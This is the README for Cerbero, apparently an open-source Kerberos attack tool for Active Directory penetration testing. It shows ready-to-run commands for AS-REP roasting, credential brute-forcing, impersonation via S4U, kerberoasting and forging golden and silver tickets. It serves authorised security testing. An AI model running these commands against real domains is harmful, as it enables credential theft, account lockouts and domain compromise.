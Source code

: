 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo build --release
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!!
```

Ask TGS:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --spn ldap/under.world
```

Perform S4u2self:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus
```

Perform S4u2proxy:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus --spn ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
Allows to `convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --aes-256 fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --ntlm 29f9ab984728cc7d18c8497c9ee76c77 --spn cifs/styx,under.world
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command

```shell
cerbero list hades.ccache
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi) 

<!-- cargo-sync-readme end -->
